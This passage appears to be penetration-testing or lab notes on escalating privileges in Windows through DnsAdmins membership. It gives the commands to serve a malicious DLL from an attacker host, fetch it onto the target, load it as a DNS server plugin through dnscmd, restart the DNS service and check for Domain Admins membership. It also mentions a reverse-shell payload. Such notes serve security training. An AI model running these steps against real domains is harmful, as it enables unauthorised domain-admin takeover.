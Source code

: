 ```bash
python3 -m http.server 7777
```

Download the file to the target.

```powershell
# POWERSHELL
wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

Loading DLL as Member of **DnsAdmins**.

```powershell
# CMD
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

Only the **dnscmd** utility can be used by members of the **DnsAdmins** group, as they do not directly have permission on the registry key.

With the registry setting containing the path of our malicious plugin configured, and our payload created, the DLL will be loaded the next time the DNS service is started. Membership in the DnsAdmins group doesn't give the ability to restart the DNS service, but this is conceivably something that sysadmins might permit DNS admins to do.

After restarting the DNS service (if our user has this level of access), we should be able to run our custom DLL and add a user (in our case) or get a reverse shell. If we do not have access to restart the DNS server, we will have to wait until the server or service restarts. Let's check our current user's permissions on the DNS service.

Once we have the user's SID, we can use the **sc** command to check permissions on the service.

```powershell
# CMD
wmic useraccount where "name=netadm" get sid
```

```powershell
# CMD
sc.exe sdshow DNS
```

We can issue the following commands to stop and start the service.

```powershell
# CMD
sc stop dns
sc start dns
```

If all goes to plan, our account will be added to the **Domain Admins** group or receive a **reverse shell** if our custom DLL was made to give us a connection back.


```powershell
# CMD
net group "Domain Admins" /dom
```

**IMPORTANTE**: Alcune volte occorre effettuare il log out e il login per abilitare effettivamente i privilegi!
